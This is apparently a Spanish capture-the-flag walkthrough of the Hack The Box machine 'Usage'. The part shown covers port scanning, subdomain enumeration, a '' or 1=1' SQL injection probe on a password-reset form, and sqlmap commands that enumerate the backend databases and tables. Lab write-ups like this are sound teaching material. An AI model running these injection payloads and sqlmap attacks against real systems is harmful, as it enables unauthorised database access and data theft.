




# Usage

`Usage` es una máquina Linux sencilla que cuenta con un sitio de blog vulnerable a la inyección SQL, lo que permite que la contraseña en hash del administrador se descargue y se descifre. Esto conduce al acceso al panel de administración, donde se abusa de un módulo `Laravel` obsoleto para cargar un shell web PHP y obtener la ejecución remota de código. En la máquina, las credenciales de texto sin formato almacenadas en un archivo permiten el acceso SSH como otro usuario, que puede ejecutar un binario personalizado como `root`. La herramienta realiza una llamada insegura a `7zip`, que se aprovecha para leer la clave SSH privada del usuario `root` y comprometer completamente el sistema.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`Usage`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.18 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 23:29 CET
Initiating SYN Stealth Scan at 23:29
Scanning 10.10.11.18 [65535 ports]
Discovered open port 80/tcp on 10.10.11.18
Discovered open port 22/tcp on 10.10.11.18
Completed SYN Stealth Scan at 23:30, 24.65s elapsed (65535 total ports)
Nmap scan report for 10.10.11.18
Host is up, received user-set (0.067s latency).
Scanned at 2025-03-06 23:29:55 CET for 24s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.77 seconds
           Raw packets sent: 67437 (2.967MB) | Rcvd: 67245 (2.691MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.18
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx` y el servicio`SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.18 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 23:33 CET
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Daily Blogs
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   64.98 ms 10.10.14.1
2   50.77 ms usage.htb (10.10.11.18)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.61 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada correspondiente.

```bash
❯ cat /etc/hosts | grep usage.htb
10.10.11.18 usage.htb
```

## Web Enumeration

Realizaremos a través de la herramienta de `whatweb` un reconocimiento inicial de las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb -a 3 http://usage.htb
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

Por otro lado, ya que disponemos de un dominio llamado `usage.htb`, realizaremos una enumeración de posibles subdominios que se encuentren en la aplicación web. A través de la herramienta de `gobuster`, nos encontramos con un subdominio llamado `admin.usage.htb`.

```bash
❯ gobuster vhost -u http://usage.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://usage.htb/
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.usage.htb Status: 200 [Size: 3304]
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep usage.htb
10.10.11.18 usage.htb admin.usage.htb
```

Accederemos a [http://usage.htb](http://usage.htb) y nos encontramos con un panel de inicio de sesión en la página `Login`, por otro lado, también existe una página llamada `Register` en la cual al parecer podemos registrarnos.

Finalmente, en la sección de `Admin`, al acceder somos redirigidos a [http://admin.usage.htb](http://admin.usage.htb) en la cual también nos aparece un panel de inicio de sesión, al parecer de una página administrativa.



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



Accederemos a http://usage.htb/register y probaremos de registrarnos con un nuevo usuario llamado `gzzcoo`.

<figure><figcaption></figcaption></figure>

Una vez tengamos el usuario registrado, accederemos con las credenciales registradas para verificar si somos redirigidos a una nueva página, etc.

<figure><figcaption></figcaption></figure>

Al acceder con nuestras credenciales, nos encontramos con un blog en el cual aparentemente no logramos visualizar ningún contenido relevante.

<figure><figcaption></figcaption></figure>

Al intentar acceder a una página que no existe, como por ejemplo http://usage.htb/gzzcoo, nos encontramos con el siguiente mensaje de error.

<figure><figcaption></figcaption></figure>

Investigamos el código fuente de la página a través de `Ctrl+U` y copiaremos el mensaje de error para buscar en Internet y comprobar por detrás cual es el servicio que se está ejecutando.

<figure><figcaption></figcaption></figure>

Al buscar por Internet, nos encontramos que al parecer este mensaje de error está relacionado con `Laravel`.


PHP es el lenguaje de programación más utilizado en mundo para desarrollar sitios web, aplicaciones web y los populares CMS, como WordPress o Joomla. Laravel crea un entorno de trabajo y proporciona herramientas a los desarrolladores para ayudarles a desarrollar en PHP sus aplicaciones web.


<figure><figcaption></figcaption></figure>

Confirmamos buscando `404 Not Found Laravel` en Internet y nos aparece el mismo mensaje de error con el mismo estilo que nos mostró la página [http://usage.htb/gzzcoo](http://usage.htb/gzzcoo).

<figure><figcaption></figcaption></figure>

Al analizar las cabeceras de la página web, también comprobamos de la existencia de una cookie relacionada con `laravel_session`.

```bash
❯ curl -I http://usage.htb
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Cache-Control: no-cache, private
Date: Thu, 06 Mar 2025 23:20:32 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IkhrMmVWRWpOQ0lqdUc3blUrM0VWblE9PSIsInZhbHVlIjoiaHIzbEllSEZMUUlyZHpnbGpQUDBHZC9TQkZEbzhzYjBLYnlUS0t0Z3YxU3FjUmlzOTAxbVNQVTZNQnFXVzV6eXZBWUlDeXk1dWFId0ZPRU9ldU54TXAwYk5VR01hVGNUQ1BnS1BTZEcyQmpnOWI0anBTdkNiczNDaUU3VVdPa0EiLCJtYWMiOiIwMjUwYjc5ZmE3YjI4NzMwZWI1Y2Y2NjcyMjNhOTVjNjAzNjcyZWEyZmJkZTZkYmI2MTNhZjMzNWYxNThmNDEwIiwidGFnIjoiIn0%3D; expires=Fri, 07 Mar 2025 01:20:32 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6InVuR0RxMWtEZi95V2hVOWQvYmNsRGc9PSIsInZhbHVlIjoiZmNGZnVhOEdsYms1QUdhK1l0M3ZGU0ZUOFRZWjMwelVkeVY3ZDhIY2lSVndZbGtRYTJBcGcxSjcyK1BhdXo4QUViYW9oY0V4ZDRKREdFYWpUNGN1MUJtL244Y051SXRnaTQ5d2VndVJqakdNbEpSbDlyTTdJWHhENkdrZXhpSnMiLCJtYWMiOiJjMDNjYmI4NGVmOTg5NzI3MTdhNmU0ZjhmMGNlOTg1NTBmZGFlZGQ5MjY5MTc5YzU2YWYzNDMyNzA2YWE1Y2FkIiwidGFnIjoiIn0%3D; expires=Fri, 07 Mar 2025 01:20:32 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
```


En [http://usage.htb/forget-password](http://usage.htb/forget-password) nos encontramos con una opción de restablecimiento de la contraseña. Al ingresar nuestro correo electrónico, verificamos que en un principio se envía un correo de restablecimiento de nuestra contraseña.

<figure><figcaption></figcaption></figure>

Al ingresar en el campo `Email-Address` un apóstrofe `'` nos encontramos que el servidor nos devuelve un error `500 SERVER ERROR`.

<figure><figcaption></figcaption></figure>

Probamos de introducir una inyección `SQL` para verificar si de algún modo se sanitiza esta entrada, pero en el resultado obtenido, comprobamos que podemos ingresar carácteres como `'` y no es sanitizado al parecer en ninguna parte, con lo que podríamos probar de verificar si esta entrada tiene inyecciones `SQL`.

Al parecer lo que nosotros pensamos que realiza esta opción es la siguiente consulta `SQL`.

```sql
SELECT * FROM users WHERE email = '{my input}';

SELECT * FROM users WHERE email = '' or 1=1;-- -';

```

<figure><figcaption></figcaption></figure>

Interceptaremos la solicitud con `BurpSuite`, haremos click derecho sobre la solicitud interceptada y le daremos a la opción de `Copy to file` para copiar esta solicitud en un archivo, que llamaremos `request`.

<figure><figcaption></figcaption></figure>

Comprobaremos que se nos ha guardado correctamente el archivo `request` el cual contiene la solicitud interceptada.

```bash
❯ cat request
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: http://usage.htb
Connection: keep-alive
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6ImttdkZJTkFOMjQyL2lERlc1U2t0WFE9PSIsInZhbHVlIjoiS3FuQ2RaS0NsMTN6N1pLSGEvOEdrVTRaMjRHQkhIU1lFSWVMN2NwUmo5d3pObjhoOFZuMmpQTkRIUlQ5cjNUZnZ5elNUYTFYd2tKUi9USjdKa1RoSTdIMlR6MWZzVGIwVFJEYXkwZy9hdFNKY0YrdE9lQWkzMHg5V3cwNTVLY3AiLCJtYWMiOiIxNjJlNmE5MDFkODcwM2NiZjYwYTZjM2QwZjJlMGZkYjM3ZTNkM2FhMmM3ZTQ3ZmYwZGJkYjE0ZjEwMWQyMDExIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkZUMzdheEVTRDZPY2RtVHpWZ3RRbmc9PSIsInZhbHVlIjoicUp5WXZtLzYzQmpNYnBKRlV1OUwvOXpZUEMxamdxVURQbkUvSU9mdzNJN1RSYzNhNkNYQys4NFVPNXBPUzhTVGJlZFBhVWdwNmJXMVF4U3VONlAweS92SGk1OUtsWUFLb0ZRMjF1U2laVWJCNXJLdVNSQjZ3aXp5WCtWemV6QlYiLCJtYWMiOiJmODFkMWQwZjhlOWRkZjI2Y2MzNmYxZmVlNDI5ZmIxMjE2MTc3YmVjODc5MmI4ZDI1NjZlYjBhOTI3ZjM0OGJiIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_token=4O8CPGJvEJCZZLmvRBc9IVXPbxsmeLewVJatlYKW&email=a
```

Realizaremos a través de la herramienta de `sqlmap` una prueba de inyección `SQL`automatizada para verificar si es vulnerable o no. Verificamos que detecta que por detrás se está corriendo un servicio de `MySQL`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:01:51 /2025-03-07/

[00:01:51] [INFO] parsing HTTP request from 'request'
[00:01:51] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[00:01:51] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[00:01:52] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[00:01:52] [INFO] testing for SQL injection on POST parameter 'email'
[00:01:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:02:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:02:49] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:03:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:03:18] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable 
[00:03:20] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
```

A través de la siguiente consulta con `sqlmap`, comprobaremos las bases de datos existentes en la aplicación web. Verificamos de la existencia de una base de datos llamada `usage_blog`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch --dbms MySQL --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:12:24 /2025-03-07/

...[snip]...
                  
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

[00:13:51] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 166 times
[00:13:51] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 00:13:51 /2025-03-07/
```

Comprobaremos las tablas de la base de datos `usage_blog` en el cual nos encontramos con diferentes tablas. De las tablas enumeradas, la que nos llama la atención es la `admin_users`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch --dbms MySQL -D usage_blog --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:15:13 /2025-03-07/

...[snip]...
       
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

[00:22:02] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 761 times
[00:22:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 00:22:02 /2025-03-07/
```


